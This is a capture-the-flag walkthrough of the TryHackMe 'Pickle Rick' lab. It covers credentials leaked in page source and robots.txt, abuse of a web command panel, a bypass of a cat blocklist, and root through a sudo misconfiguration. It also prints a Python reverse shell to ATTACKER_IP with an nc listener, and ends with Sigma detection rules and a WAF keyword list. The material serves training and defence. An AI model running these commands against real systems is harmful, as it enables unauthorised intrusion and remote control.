










# 🥒 Pickle Rick — TryHackMe Walkthrough

> **Difficulty:** Easy | **OS:** Linux | **Category:** Web Exploitation, Privilege Escalation  
> **Platform:** [TryHackMe](https://tryhackme.com/room/picklerick) | **Completed:** June 2026  
> **Author:** [Hammad Khan](https://linkedin.com/in/hammad-khan011) | [HK101-cyber](https://github.com/HK101-cyber)

---

## 📋 Executive Summary

A web server running an Apache instance on Ubuntu leaks credentials through poor OPSEC (username in HTML source, password in `robots.txt`). Authenticated access to an admin command panel allows direct OS command execution, leading to full root compromise via a `sudo NOPASSWD: ALL` misconfiguration. Three flags (ingredients) are recovered across the web root, rick's home directory, and the root directory. Every attacker action has a corresponding SIEM detection and mitigation documented below.

---

## 🗺️ Attack Path Overview

```
Reconnaissance (Nmap)
       ↓
Web Recon → Credentials in Source + robots.txt
       ↓
Directory Brute Force → /login.php discovered
       ↓
Authentication → Command Injection Panel
       ↓
cat blocked → Bypass with less → FLAG 1
       ↓
sudo -l → NOPASSWD:ALL → Root
       ↓
FLAG 2 (/root) + FLAG 3 (/home/rick)
       ↓
(Optional) Reverse Shell → Full TTY
```

---

## 🎯 MITRE ATT&CK Mapping

| Phase | Technique | ATT&CK ID |
|---|---|---|
| Reconnaissance | Active Scanning — Web Service | T1595.002 |
| Discovery | Network Service Scanning (Nmap) | T1046 |
| Discovery | File & Directory Discovery (Gobuster) | T1083 |
| Credential Access | Credentials in Source Code / robots.txt | T1552.001 |
| Initial Access | Valid Accounts (stolen credentials) | T1078 |
| Execution | Command & Scripting Interpreter — Unix Shell | T1059.004 |
| Defense Evasion | Binary Substitution (`less` for `cat`) | T1218 |
| Privilege Escalation | Sudo and Sudo Caching — NOPASSWD | T1548.003 |
| Command & Control | Reverse Shell via Python socket | T1059.004 |

---

## 🔴 Phase 1 — Reconnaissance

### 1.1 Network Scan

```bash
nmap -sV -sC -Pn 10.10.X.X -oN nmap-pickle-rick.txt
```

**Why:** `-sV` detects service versions, `-sC` runs default scripts for banner grabbing and basic vuln checks, `-Pn` skips host discovery (useful when ICMP is blocked), `-oN` saves output for documentation.

**Result:** Two open ports discovered.

| Port | Service | Version |
|---|---|---|
| 22/tcp | SSH | OpenSSH 7.2p2 Ubuntu |
| 80/tcp | HTTP | Apache httpd 2.4.18 |

SSH requires credentials we don't have yet — HTTP is the attack surface. Priority: port 80.



---

## 🔴 Phase 2 — Web Reconnaissance

### 2.1 Page Source — Username Disclosure

Navigated to `http://10.10.X.X`. Rick & Morty themed page with no visible login. First reflex: **view page source**.

```
Ctrl+U → search for comments, hidden fields, credentials
```

Developer left a credential in an HTML comment — a classic OPSEC failure seen in real-world engagements constantly.

```html
<!-- Note to self, remember username! Username: R1ckRul3s -->
```

**Username acquired:** `R1ckRul3s`



---

### 2.2 robots.txt — Password Disclosure

`robots.txt` is meant to tell search engine crawlers which pages to avoid — but developers sometimes put sensitive info there thinking it's hidden. Always check it.

```bash
curl http://10.10.X.X/robots.txt
```

**Output:** `Wubbalubbadubdub`

This is the password. Both credentials are now in hand before even scanning for directories.



---

### 2.3 Directory Brute Force

Even with credentials, we need to find the login panel. Gobuster brute forces directory and file paths against a wordlist.

```bash
gobuster dir \
  -u http://10.10.X.X \
  -w /usr/share/wordlists/dirb/common.txt \
  -x php,txt,html \
  -o gobuster-pickle-rick.txt
```

**Why `-x php,txt,html`:** The site runs PHP (Apache). Adding extensions finds files gobuster would otherwise miss when only checking directory names.

**Discovered paths:**

| Path | Status | Notes |
|---|---|---|
| `/login.php` | 200 | Login panel |
| `/portal.php` | 302 | Redirects to login (authenticated area) |
| `/robots.txt` | 200 | Already checked |
| `/assets` | 301 | Static files |



---

## 🔴 Phase 3 — Authentication & Command Injection

### 3.1 Login

Navigated to `/login.php`. Used the credentials recovered from recon.

- **Username:** `R1ckRul3s`  
- **Password:** `Wubbalubbadubdub`



Successful login redirects to `/portal.php` — a command execution panel that passes input directly to the OS. This is effectively a web shell built into the application.

---

### 3.2 Command Execution — cat Blocked

First instinct: read the suspicious file `Sup3rS3cretPickl3Ingred.txt` visible in the web root.

```bash
cat Sup3rS3cretPickl3Ingred.txt
```

The application has a blocklist filtering the `cat` command — a superficial defense that's trivially bypassed.



---

### 3.3 Defense Bypass — less

`cat` is blocked, but dozens of other binaries read file content. `less` is one of them.

```bash
less Sup3rS3cretPickl3Ingred.txt
```

**Key lesson:** Blocklisting individual commands is not a security control — it's security theater. An attacker has `tac`, `more`, `head`, `tail`, `strings`, `xxd`, `base64`, `python3 -c "print(open('file').read())"`, and more. Defense must happen at the architecture level, not the command level.



---

### 🚩 Flag 1 — First Ingredient



---

## 🔴 Phase 4 — Privilege Escalation

### 4.1 Sudo Enumeration

Running as `www-data` (the Apache web server user). First check: what can this user run with elevated privileges?

```bash
sudo -l
```

**Output:**
```
User www-data may run the following commands on this host:
    (ALL) NOPASSWD: ALL
```

This is a catastrophic misconfiguration. The web server process can run **any command as root without a password**. In a real environment, this single line would be the critical finding in a pentest report.

---

### 4.2 Root — Flag 2

```bash
sudo ls /root
sudo less /root/3rd.txt
```



---

### 🚩 Flag 2 — Root Ingredient

*(See screenshot above — flag value in `/root/3rd.txt`)*

---

### 4.3 Rick's Home — Flag 3

```bash
sudo ls /home/rick
sudo less "/home/rick/second ingredients"
```

Note the **space in the filename** — must be quoted or escaped. Careless handling of this causes a common mistake (`cat second ingredients` fails with "no such file").



---

### 🚩 Flag 3 — Final Ingredient

*(See screenshot above — flag value in `/home/rick/second ingredients`)*

---

## 🔴 Phase 5 — Full Shell (Optional: Reverse Shell)

The command panel gives command execution but no interactive shell. For full TTY access:

**Attacker machine — start listener:**
```bash
nc -lvnp 4444
```

**In command panel — Python reverse shell:**
```bash
sudo python3 -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("ATTACKER_IP",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
subprocess.call(["/bin/sh","-i"])'
```

**Stabilise the shell:**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z
stty raw -echo; fg
```

Full root shell achieved.

---

## 🔵 Blue Team — Detection & Mitigation

This section is what separates a CTF note from a real security document. Every attack step above maps to a detection opportunity.

| Attack Step | MITRE ID | Detection Method | Log Source |
|---|---|---|---|
| Nmap port scan | T1046 | Port scan signatures; connection rate to multiple ports from single IP | Firewall / IDS (Snort/Suricata) |
| Gobuster directory brute force | T1083 | High 404 rate from single IP; unusual `User-Agent: gobuster` | Apache/Nginx access logs |
| Credentials in HTML source | T1552.001 | Code review / SAST scanning in CI/CD pipeline | Source control |
| Command injection via web panel | T1059.004 | WAF rules detecting shell metacharacters in POST params | WAF / Sysmon Event ID 1 |
| `less` used to read files | T1059.004 | Monitor process creation: `www-data` spawning `less`, `tac`, `xxd` | Sysmon EID 1 / auditd |
| `sudo -l` enumeration | T1548.003 | Audit log entry for `sudo` commands by service accounts | `/var/log/auth.log` |
| `NOPASSWD: ALL` sudo | T1548.003 | Alert on any sudo exec by web server user (`www-data`) | auditd / SIEM correlation |
| Python reverse shell | T1059.004 | Outbound connection from web server process; `socket.socket` in cmdline | Sysmon EID 3 / Network IDS |

---

### 🛡️ Sigma Rule — Suspicious Web Shell Command Execution

```yaml
title: Web Server Process Spawning Shell Commands
id: 7f3a1c2d-89b4-4e6f-a012-3d4e5f678901
status: experimental
description: Detects a web server process (www-data/apache/nginx) spawning
             suspicious child processes indicative of command injection or web shell activity.
author: Hammad Khan (HK101-cyber)
date: 2026/06
references:
    - https://attack.mitre.org/techniques/T1059/004/
    - https://tryhackme.com/room/picklerick
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        ParentUser|contains:
            - 'www-data'
            - 'apache'
            - 'nginx'
        Image|endswith:
            - '/bash'
            - '/sh'
            - '/python3'
            - '/python'
            - '/less'
            - '/tac'
            - '/xxd'
    condition: selection
falsepositives:
    - Legitimate web application features that spawn processes (rare, should be allowlisted)
level: high
tags:
    - attack.execution
    - attack.t1059.004
    - attack.privilege_escalation
    - attack.t1548.003
```

---

### 🛡️ Sigma Rule — Python Reverse Shell Detection

```yaml
title: Python Reverse Shell via Socket
id: 2a9b4f1e-12c3-4d5e-b678-9f0a1b2c3d4e
status: experimental
description: Detects Python being used to open a socket and spawn a shell,
             a common reverse shell technique.
author: Hammad Khan (HK101-cyber)
date: 2026/06
references:
    - https://attack.mitre.org/techniques/T1059/004/
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        Image|endswith:
            - '/python3'
            - '/python'
        CommandLine|contains|all:
            - 'socket.socket'
            - 'os.dup2'
    condition: selection
falsepositives:
    - Legitimate Python scripts using sockets (verify via allowlist)
level: critical
tags:
    - attack.execution
    - attack.t1059.004
    - attack.command_and_control
    - attack.t1571
```

---

## 🛠️ Mitigations

**For system administrators and blue teamers — what actually fixes this:**

**1. Remove credentials from source code and robots.txt**  
Use environment variables or a secrets manager (HashiCorp Vault, AWS Secrets Manager). Never commit credentials to source control or expose them in HTTP responses.

**2. Fix the sudo misconfiguration immediately**  
`NOPASSWD: ALL` for a web server user is indefensible. The principle of least privilege mandates the web server process needs zero sudo access. If specific commands are needed, restrict to exactly those:
```
www-data ALL=(root) NOPASSWD: /usr/bin/specific-command
```

**3. Implement a WAF rule for command injection**  
Block or alert on POST parameters containing: `|`, `;`, `&&`, `$(`, `` ` ``, `python`, `bash`, `sh -i`

**4. Restrict the web server's file system access**  
Run Apache/Nginx in a chroot jail or container. The web process should never be able to read `/root` or `/home/rick`.

**5. Monitor process creation from web server users**  
Any process spawned by `www-data` that isn't PHP/Apache itself should generate an alert. This catches both the command panel abuse and the reverse shell.

---

## 🧰 Tools Used

| Tool | Purpose | Command Reference |
|---|---|---|
| Nmap | Port & service discovery | `nmap -sV -sC -Pn` |
| Gobuster | Directory brute force | `gobuster dir -u -w -x` |
| curl | HTTP requests | `curl http://IP/robots.txt` |
| less | File read (cat bypass) | `less filename` |
| Python3 | Reverse shell | `python3 -c 'import socket...'` |
| Netcat | Listener | `nc -lvnp 4444` |

---

## 📚 References

- [TryHackMe — Pickle Rick Room](https://tryhackme.com/room/picklerick)
- [MITRE ATT&CK — T1059.004 Unix Shell](https://attack.mitre.org/techniques/T1059/004/)
- [MITRE ATT&CK — T1548.003 Sudo and Sudo Caching](https://attack.mitre.org/techniques/T1548/003/)
- [GTFOBins — less](https://gtfobins.github.io/gtfobins/less/)
- [Sigma Rules Repository](https://github.com/SigmaHQ/sigma)

---

## 🔗 More From This Series

| Room | Difficulty | Status |
|---|---|---|
| Pickle Rick | Easy | ✅ [Read Writeup](../pickle-rick/README.md) |
| RootMe | Easy | ✅ [Read Writeup](../rootme/README.md) |
| Bounty Hacker | Easy | 🔜 Coming Soon |
| Agent Sudo | Easy | 🔜 Coming Soon |
| Mr. Robot CTF | Medium | 🔜 Coming Soon |
| Relevant | Hard | 🔜 Coming Soon |

---

*Made with 🔴 Red Team thinking + 🔵 Blue Team heart.*  
*Connect: [LinkedIn](https://linkedin.com/in/hammad-khan011) · [GitHub](https://github.com/HK101-cyber)*
